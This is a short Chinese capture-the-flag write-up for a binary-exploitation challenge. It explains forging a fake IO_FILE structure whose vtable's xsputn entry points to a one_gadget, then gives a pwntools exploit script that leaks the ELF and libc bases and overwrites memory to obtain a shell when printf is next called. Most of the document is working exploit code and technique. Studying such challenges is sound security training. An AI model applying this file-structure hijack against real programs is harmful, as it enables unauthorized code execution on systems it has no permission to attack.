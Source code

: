 https://xz.aliyun.com/t/2608 可以按照2018网鼎杯Lilac提供的blind题解（葵佬nb！）构造IO_FILE

令vtable指向`addr+240` ，然后在`addr+240`中构造虚表，把` xsputn` 位置改为one_gadget就能在下次调用`printf` 的时候getshell

~~~c
void * funcs[] = {
   1 NULL, // "extra word"
   2 NULL, // DUMMY
   3 exit, // finish
   4 NULL, // overflow
   5 NULL, // underflow
   6 NULL, // uflow
   7 NULL, // pbackfail
   8 NULL, // xsputn  #printf
    ...
}
~~~

exp如下：

~~~python
from pwn import *

context.log_level = 'debug'

io = process("./pwn",aslr=False)
# io = remote("218.197.154.9",10006)
elf = ELF("./pwn")
# libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(io,"b *0x555555554B60")

def rread(offset):
	io.sendlineafter("Choice:","1")
	io.sendlineafter("Offset:\n",str(offset))

def wwrite(offset,size,data):
	io.sendlineafter("Choice:","2")
	io.sendlineafter("Offset:\n",str(offset))
	io.sendlineafter("Size:\n",str(size))
	io.sendlineafter("Input data:\n",data)
	
io.recvuntil("Gift:\n")
addr = int(io.recv(14),16)
elf_base = addr - 0x202060
success("elf_base:"+hex(elf_base))

rread(-0x40)
io.recvuntil("This is your data:\n")
libc_base = u64(io.recv(6)+'\x00\x00')-0x7f2f223cb620+0x7f2f22006000
success("libc_base:"+hex(libc_base))


payload = p64(0xfbad8800)+p64(addr)*7
payload += p64(addr+1)+p64(0)*4+p64(addr)+p64(1)
payload += p64(0xffffffffffffffff)+p64(0)+p64(addr)+p64(0xffffffffffffffff)
payload += p64(0)+p64(addr)+p64(0)*3+p32(0xffffffff)+p32(0)+p64(0)*2+p64(addr+240)

payload += p64(0)*7 + p64(libc_base + 0x4526a)
print(len(payload))
wwrite(0, "-1", payload)
io.recv()
io.sendline("2")
io.recv()
io.sendline("-48")
~~~